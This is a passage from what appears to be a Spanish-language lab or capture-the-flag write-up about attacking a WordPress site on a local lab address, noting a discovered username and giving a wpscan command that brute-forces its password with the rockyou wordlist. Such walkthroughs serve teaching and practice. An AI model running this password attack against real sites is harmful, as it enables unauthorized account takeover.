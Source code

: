 Obtenemos la crendecial
- **Usuario**: mario


#### Obtener contraseña

Teniendo un nombre de usuario podemos usar de nuevo la herramienta **wpscan**, para por medio de la fuerza bruta y con la ayuda de un diccionario encontrar la contraseña para ese usuario.
```
wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```
<p align="center">
    <img src="../img/Pasted_image_20241208225000.png" width="500">
</p>
<p align="center">
    <img src="../img/Pasted_image_20241208225029.png" width="500">
</p>
